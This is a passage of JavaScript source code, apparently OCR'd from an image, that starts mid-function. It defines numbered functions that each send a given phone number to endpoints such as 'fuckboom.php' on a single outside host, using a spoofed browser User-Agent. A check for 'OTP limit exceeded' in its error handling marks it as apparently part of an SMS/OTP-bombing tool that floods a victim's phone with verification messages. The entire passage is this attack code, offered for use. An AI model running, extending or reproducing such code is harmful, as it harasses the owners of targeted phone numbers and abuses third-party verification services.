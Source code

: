         return result;
    } catch (error) {
        console.error('API 21 Error:', error);
        throw error;
    }
}

async function api_22(phone) {
    const data = {
        type: "phone",
        phone: phone
    };

    try {
       
        const response = await fetch(`https://hadivai-mahirvai.my.id/fuckboom.php?phone=${phone}`, {
            method: 'POST',
            headers: {
                'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/109.0',
                'Content-Type': 'application/json',
                'Content-Length': '0'
            }
        });

        const result = await response.json();

       
        if (result.status === 'failed') {
            throw new Error(`API 22 Failure: ${result.error || 'Unknown error'}`);
        }

        return result;
    } catch (error) {
        console.error('API 22 Error:', error);
        throw error;
    }
}

async function api_23(phone) {
    const url = `https://hadivai-mahirvai.my.id/kupasamsu.php?phone=${phone}`;

    try {
        const response = await fetch(url, {
            method: 'GET',
            headers: {
                'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/109.0'
            }
        });

        const result = await response.json();

        if (result.status === 'Failed' || result.msg.includes('OTP limit exceeded')) {
            throw new Error(`API 23 Failure: ${result.msg || 'Unknown error'}`);
        }
 return result;
    } catch (error) {
        console.error('API 23 Error:', error);
        throw error;
    }
}
